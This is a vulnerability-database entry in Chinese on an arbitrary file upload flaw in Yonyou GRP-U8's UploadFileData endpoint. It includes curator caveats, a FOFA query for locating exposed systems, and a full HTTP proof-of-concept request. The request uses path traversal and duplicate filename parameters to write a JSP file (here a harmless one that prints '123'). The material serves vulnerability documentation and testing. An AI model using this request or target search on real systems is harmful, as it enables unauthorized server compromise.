



# 用友GRP-U8 UploadFileData上传路径写入

## 条目说明

- 对象与具体问题：用友GRP-U8；UploadFileData上传路径写入
- 版本、配置及部署条件：未列，126称R10
- 认证与权限前提：有Cookie，未知
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- 需解释双filename和重复参数是否解析差异绕过
- 成功图未文本化，缺版本/修复/鉴权

## 操作风险

文件写入/上传示例可能留下文件、覆盖数据或触发脚本执行。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。凭据示例如含星号，仅保留首尾用于说明，不能直接使用。

## 技术资料与来源记录

### 漏洞描述

用友 GRP-U8 UploadFileData接口存在任意文件上传漏洞，攻击者通过漏洞可以获取服务器权限

### 漏洞影响

```
用友 GRP-U8
```

### 网络测绘

```
app="用友-GRP-U8"
```

### 漏洞复现

登录页面



验证POC

```http
POST /UploadFileData?action=upload_file&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&foldername=%2e%2e%2f&filename=debugg.jsp&filename=1.jpg HTTP/1.1
Host: 
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=5******************************9
Content-Type: multipart/form-data
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.134 Safari/537.36

------WebKitFormBoundary92pUawKc
Content-Disposition: form-data; name="myFile";filename="test.jpg"

<% out.println("123");%>
------WebKitFormBoundary92pUawKc--
```



访问写入的文件

```
/R9iPortal/debugg.jsp
```



---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
